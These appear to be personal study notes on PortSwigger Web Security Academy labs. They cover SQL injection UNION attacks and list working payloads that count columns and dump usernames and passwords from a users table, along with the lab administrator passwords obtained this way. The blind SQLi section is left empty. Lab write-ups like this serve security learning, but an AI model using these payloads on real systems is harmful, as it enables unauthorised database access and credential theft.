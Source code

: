 ![[file-20250504220551352.png]]
![[file-20250504221151843.png]]
![[file-20250504221454878.png]]
### Lab: SQL injection UNION attack, retrieving data from other tables

Find the number of rows first using ORDER BY  or NULL. Then confirm the datatype by entering gibberish in each row and we know it is string since both returned `200 OK`. Then write your `SQL query` to retrieve the data from the table.

```SQL
'+ORDER+BY+2--
'+UNION+SELECT+'a',NULL--
'+UNION+SELECT+NULL,'a'--
'+UNION+SELECT+username,password+FROM+users--
```

![[file-20250503191549040.png]]
Now login with the administrator and `b03dpneem5463zdxohts` to complete the challenge.

### Lab: SQL injection UNION attack, retrieving multiple values in a single column
Now we are supposed to print both multiple columns in a single column. So we first need to know which column to fetch the values into:
```SQL
' ORDER BY 1,2--
' UNION SELECT 1,'something'--
' UNION SELECT 1,username||password from users--
```
Now to separate the username and the password we can use the below payload and for concatenation use the `||` operator:
```sql
' UNION SELECT 1,username||':'||password from users--
```

![[file-20250503201458011.png]]
And now login with the `administrator` and `h1jndyjfop9zvggptkdw`
## Blind SQLi
Blind SQL injection occurs when an application is vulnerable to SQL injection, but its `HTTP responses` do not contain the results of the relevant SQL query or the details of any database errors.
### Exploiting blind SQL injection by triggering conditional responses

## Resources
- [GitHub - rkhal101/Web-Security-Academy-Series](https://github.com/rkhal101/Web-Security-Academy-Series)
